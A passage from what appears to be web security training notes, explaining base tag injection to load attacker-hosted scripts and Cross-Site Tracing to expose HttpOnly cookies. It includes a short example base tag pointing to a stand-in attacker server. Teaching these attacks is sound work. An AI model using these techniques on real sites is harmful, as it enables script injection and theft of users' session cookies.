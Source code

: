 {% hint style="info" %}
The HTML `<base>` tag specifies the base URL for all relative URLs in a document.

It’s a  feature that simplifies document editing and management, but can easily be exploited by attackers who can inject a base tag URL inside the HTML document.
{% endhint %}

If you can inject a malicious base tag (or itrs URL), then **all relative paths defined inside the injected HTML page will refer to the base URL defined** inside it.

Considering that many pages will include JavaScript files using relative URLs, you might be able to obtain an XSS from this HTML injection attack.

A basic **example** is the following:

<pre class="language-html"><code class="lang-html"><strong># Consider you have injected the following base tag:
</strong>&#x3C;base href="https://yourserver.example/" />

# The injected HTML page contains a script loaded using a relative URL, such as:
&#x3C;script src="/static/script.js">

# This means you can write the "/static/script.js" file on your webserver
# to perform an XSS attack, as the injected page will load the script located
# at the following URL: https://yourserver.example/static/script.js
</code></pre>

***

### Bypassing HTTPOnly - Cross Site Tracing (XST)

A Cross-Site Tracing (XST) attack involves the use of Cross-site Scripting (XSS) and the TRACE or TRACK HTTP methods.

{% hint style="info" %}
The HTTP TRACE method allows the client to see what is being received at the other end of the request chain and use that data for testing or diagnostic information.

The TRACK method works in the same way but is specific to Microsoft’s IIS web server.
{% endhint %}

Using XST, an attacker can steal user’s cookies even if they have the “HttpOnly” flag, as the TRACE method will reflect back the input user’s request, revealing any Cookies or Authorization header.

OWASP provides several [examples](https://owasp.org/www-community/attacks/Cross_Site_Tracing) about this attack that you can check out.

{% hint style="danger" %}
This technique is quite old: modern browsers typically block the HTTP TRACE method inside scripting languages and libraries. The only way to effectively leverage XST is to use existing alternatives to JavaScript such as Java&#x20;
{% endhint %}
